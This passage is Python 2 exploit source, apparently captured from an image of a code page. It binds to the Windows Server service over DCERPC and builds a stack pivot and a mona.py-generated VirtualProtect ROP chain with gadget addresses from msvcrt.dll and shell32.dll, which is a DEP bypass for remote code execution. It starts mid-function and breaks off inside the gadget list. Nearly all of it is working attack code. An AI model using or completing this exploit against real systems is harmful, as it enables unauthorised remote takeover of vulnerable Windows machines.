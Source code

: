    except:
        print "[*]\tConnection fault"
        exit()
    dce = trans.DCERPC_class(trans)
    dce.bind(uuid.uuidtup_to_bin(('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
    print "[*]\tBinding"
    return dce


def jmprop():
    rop1    =  pack("<L", 0x77BDF444)
    offsets = [0, 18, 36, 56], 
    rop2 = rop1 * 4
    
    stackpivot = list("\x44" * 60)
    
    stackpivot[0: len(rop1)] = rop1
    stackpivot[18: (len(rop2) + 18)] = rop2
    stackpivot[36: (len(rop1) + 36)] = rop1
    stackpivot[56: (len(rop1) + 56)] = rop1

    return ''.join(stackpivot)


def deprop():
    """
    rop -m msvcrt.dll,shell32.dll -cpb '\x00\x0a\x0d'
    rop chain generated with mona.py - www.corelan.be
    Register setup for VirtualProtect() :
    --------------------------------------------
     EAX = NOP (0x90909090)
     ECX = lpOldProtect (ptr to W address)
     EDX = NewProtect (0x40)
     EBX = dwSize
     ESP = lPAddress (automatic)
     EBP = ReturnTo (ptr to jmp esp)
     ESI = ptr to VirtualProtect()
     EDI = ROP NOP (RETN)
     --- alternative chain ---
     EAX = ptr to &VirtualProtect()
     ECX = lpOldProtect (ptr to W address)
     EDX = NewProtect (0x40)
     EBX = dwSize
     ESP = lPAddress (automatic)
     EBP = POP (skip 4 bytes)
     ESI = ptr to JMP [EAX]
     EDI = ROP NOP (RETN)
     + place ptr to "jmp esp" on stack, below PUSHAD
    --------------------------------------------
    """
    rop_gadgets = [
        0x77bc5f6e,  # POP EAX # RETN [msvcrt.dll] 
        0x7c8d1748,  # ptr to &VirtualProtect() [IAT SHELL32.dll]
        0x7c9db891,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [SHELL32.dll] 
        0x77bb0c86,  # XCHG EAX,ESI # RETN [msvcrt.dll] 
        0x77bac145,  # POP EBP # RETN [msvcrt.dll] 
        0x7c9b640c,  # & jmp esp [SHELL32.dll]
        0x7c946761,  # POP EAX # RETN [SHELL32.dll] 
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x7c9b2676,  # NEG EAX # RETN [SHELL32.dll] 
        0x7ca2a6af,  # XCHG EAX,EBX # RETN [SHELL32.dll] 
        0x77bdf0da,  # POP EAX # RETN [msvcrt.dll] 
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x7c9b2676,  # NEG EAX # RETN [SHELL32.dll] 
        0x77bb8285,  # XCHG EAX,EDX # RETN [msvcrt.dll] 
        0x77bbc98a,  # POP ECX # RETN [msvcrt.dll] 